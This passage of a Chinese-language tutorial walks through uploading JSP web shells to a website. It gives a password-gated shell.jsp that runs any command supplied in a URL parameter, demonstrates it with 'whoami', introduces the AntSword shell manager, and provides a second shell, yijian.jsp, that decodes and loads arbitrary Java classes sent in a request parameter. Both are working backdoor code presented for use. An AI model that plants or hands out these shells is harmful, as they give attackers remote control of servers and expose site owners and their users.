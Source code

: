 上传 shell.jsp 脚本

![](http://img.wukaipeng.com/2023/0831-081605-image-20230831081604856.png)

在这段脚本中，会读取 URL 上叫做 `pwd` 的参数，匹配为 `wukaipeng` 之后，然后获取 `i` 参数，并且把对应的值当做命令来执行：

```java
<%
    if("wukaipeng".equals(request.getParameter("pwd"))){
        java.io.InputStream in = 
Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

当我们请求 `/shell.jsp?pwd=wukaipeng&i=whoami`，就执行了 `whoami` 命令：

![](http://img.wukaipeng.com/2023/0831-081736-image-20230831081736397.png)



### 工具：AntSword

蚁剑，网站管理工具。

👉 安装下载指南：[https://www.yuque.com/antswordproject/antsword/srruro](https://www.yuque.com/antswordproject/antsword/srruro)

上传下面的文件 `yijian.jsp` 到网站中：

```java
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```